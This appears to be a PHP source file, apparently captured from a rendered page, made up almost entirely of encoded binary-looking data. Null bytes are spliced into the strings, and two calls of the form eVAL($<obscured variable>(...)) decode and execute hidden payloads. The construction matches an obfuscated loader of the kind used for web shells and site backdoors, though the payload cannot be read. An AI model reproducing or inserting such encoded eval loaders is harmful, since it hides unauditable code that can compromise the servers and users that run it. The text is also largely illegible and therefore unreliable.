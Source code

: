 ��ڏMѿ�vj���.�ѣkş�x]�m��7��O[ �v�NR��`F���}s��E1�i_t����D~++�~"E8��՟�p۷{B7�Id4�h�#f��iz�������uֹ	4�F��!��|������P��#�F�q�;�n��=)ٳӛl��-ח���.E�܇[
hJ/L�i�s���n��lh���h�o�/^��B������' . "\0" . '����+���i�BѬߺ�8�n���P��E(&�/v�����%����c�����Zr��V�� ��`un�����
��@?[�[����zj@�4�A�p j�,����h2F��Ⱥ���
��Fe
��P�\\�̈́w7Ӷ���H�
Y%hh����o�A�j��������|.�G��+B����hzI�dvAb�{s�^Y���ԓ�)却�uH���� ����A�Z�E!��<?X������Up������*JWe
<������' . "\0" . 'Vr�f\'��sx$
�9��ZY/d	�������`VP�A�8�kK�:^�<b���n�o0;�L�m�5�+��	\'�+ m�^���S�PZ1�_�,�Z���l	q�����Q�2�n(���HV~��<RٶD���C��{�,VS�3��*����a�e�+Юm���cWڜ7�姫U�
���hS�*1�D#�7*�*+G�kA�❉���`��w��7 (��**�-�$`v5ܪJ�$��%w�G��Ƭ�q��uH��3' . "\0" . 'f̴�n���������"�f���@]�4�9��0T��r�6z��z~y�����Wz��t<�i���>\\7�:�3�yX"�^��0����bAu��X�,����]��8�f5�
��0>�_� ����2��zѡ~a�A��2Q����W=�ٰz����������~N_������MUoӛ����<\\o�' . "\0" . '' . "\0" . ''))^0);eVAL($�������ϩϰ�Ǿ���ɯ���ڢ�Ը��꡿�޾ƪ�����������ҵ�������С��ɣ��������������������߼���׮�֭��߽Ũ�ٳ��('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '��Mo�' . "\0" . '�5�2���â
)�fm�h�N�U�jR���[�q�q�a��Hf0�e�	��p�6&1l6��`p!�	_�z�RO�sx���>���go�x���W��f�0��5��U۸�Nn��K�֩�Q�& 5o0��`3/��?F����"�ȪlW�\'Ől9�1(T��� ��-\'�أ������p��,��oo���F�;
u/+L5�9�#�c��3!�Ԗ�F��xN��4!QŀQ��)n�𺪀��70�qk6���n��\\��,���Q
W	b^~��i��ٯ�s�LG5�4+�u���b��:w��V�ͭb��W�Y6���,�	˸�9p��ٴ3R���*�V��E�s���Bm��P����:1�˖�F��q�p��s6�i�I@c�~���o6��?�m��������=Y�"=��2����W�ç�Ϋ��j����\'/^�8���_~�w�B�-�\'�0��\'&A��l˥�U�@�����&���H��`�p��.o����ԘҔ䦚(Ø1���"��Y�dY9oՓ���L���0�\\�g�`��ҽ6t�%�X��	ʎ*B�#�s���c)�$�#\'Y<(��Ŵ38��Ӛ���
�׌��0�[Ed��{��~�`%?R*|���}
�`pz���ɈLK���(�O�0�,�~��|ܞ�g5G�߲:�����x-̴7��MqA��
B0���1xV�h��^Z
.����B���𴦎�(����,�Vѹ��k3$���7�����=�]����|�?<�\\Ur' . "\0" . '' . "\0" . ''));eVAL($�����������߱ؾ������ڻ辽��ع¨�����ѻ����ϼ�ܬ����˟������à�ٲ��Ҧ��ԧ���������ù������«�ڪ�����������('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'ռS�-M�6c{�ض�=��5�m{��Ƕm۶m�3����\\|�9�E�u�z����ʮ�\'���������̎��zr��`?�mz{�~y�3�k���%}�ppo�����v�u�ea�.��%w#��5g��m����v�l{1�~o���p���<�b��&3o:�s�$������e�r���a�?#g���?������@�����c���}X�j�˥�kߢ^���2��Z�0H��}��n]����k�6�
]ϵ�����e��Ǘ�����{K��篩%�6��Ԝ��޶�4��ϧ3v����[�NV�Q��4�Zv����sc��aiZ�x[��VR	�ف���[�U�7ާ��w�L����G�<�f�' . "\0" . '�y��L�ux%
��0K��o腅���{��ڮZk��K' . "\0" . 'y�\\L�G1mp��WOգ	��Cǽk׺����U�%|�.���Xb���"�����Y}�4��s�5��s�@_���c\\���(ea�c
�p��W�xv�c�m<vE' . "\0" . '��I���@��޶�`�ʔQBf]�Y���a�B�r�t����f�z�%��sm�ˮ���u ���26��~ ��ڛs��faU:s=eu��,�
d�C��ǃ�s���UG���`�W\\��EBz�]��QUۼ�EZ���QV
1�8
�b' . "\0" . 'y�>{-Vo�.]{*N2�>���tHe���J̑�1ct�B��$�I��՜T�r��)����J9��[��Q��E�kVaJW}B�����?,"
�b$����i)P' . "\0" . '' . "\0" . '�{��B>K�`z^' . "\0" . '���\\MPэ�g��"�&�a���a0�u�9���Y,0D	�n���n%�p���D�Xΐ��=�o7=�\\Zz�S��x����=��g�YU��OՖ��T�]�ŝ���ZYui��⾯��w�&�
n��z8�z���i�؝�2\'x�ʍ�����a��78�<L���
�r#lI����/��2�bw��O9�&E���![���s�K]$�<�H��,�' . "\0" . '�X`Bi��8(��?9d���e��2$Ét�H�>v|�т�
��̩Q��D�Q"������R�uH��6��*�n���N���s�,�R9�ũ:A�L���;�(F?0vH�d ���s�0�!i��T�3{�y�2U����\\�ʭ
���ܿ�9GYh��� �����\'L
�.u�-�Jmk�u��vхǎ�+�)K$t��iBgƓ�IBk�sLW�NK��a���A�
�P�yxfe6���ܜ' . "\0" . 'ȣ���/[[@+�$��F��x
����j"x3k�YU�D���J��+ҿw��Q@���nj%\'ėI�\'^1�l����s	�0��Dl��ʗ�nɸ�I�+�{c
�eNC' . "\0" . '��80�
On��J%����@��CP�@E[�\'l�X�$��6	v�ЩJ��K�cX{8N��r|�`��Q&�.Z�gꈉ�)5�dVW���D��c�|��� r��������V��ǈe�mӰؽ�j�k�z�;����0������A��%����}���Kx��y��_�����{h[�i�U���ڡ�b���Ȍ��m0ʂC��䳮��7�h�X5��>�����}	S.�O�Q�����՚����J�Kv,K' . "\0" . '�w��]���т9' . "\0" . '' . "\0" . 'a�+n��G��吆�E��F\'���5�#?���5�$H����n�zA��+>H\\���ݢ�=B@�9|hQ\\9Ϙ��
~[�Un��$�0�8��(dc#B�(<�c���U�m��m���5p�lӟ�<0Q`~����߹L���;[��h2�K[]�W%`�n���(^Ŧ�dX�[
�!��A2� �@��́�}�' . "\0" . '�:y<�9%�Sm��q�h�.��"*��n�~�ȍ�~=j�i��
�Ҟ��=F*�va�l�
s�U[W�kS�sk���#9����R��&�>ۂTK��TT�l3[j*�J�俲��a��V��4i4j��[6�%R��Ȧq��L���a
e���	�Tmb@�j[�����b�ⶦ�"����~U�@yK� lE�.�
�ӣW��Ȫ׊C�D>��r.�QV��NX�W��}$�O�QW%�^��#��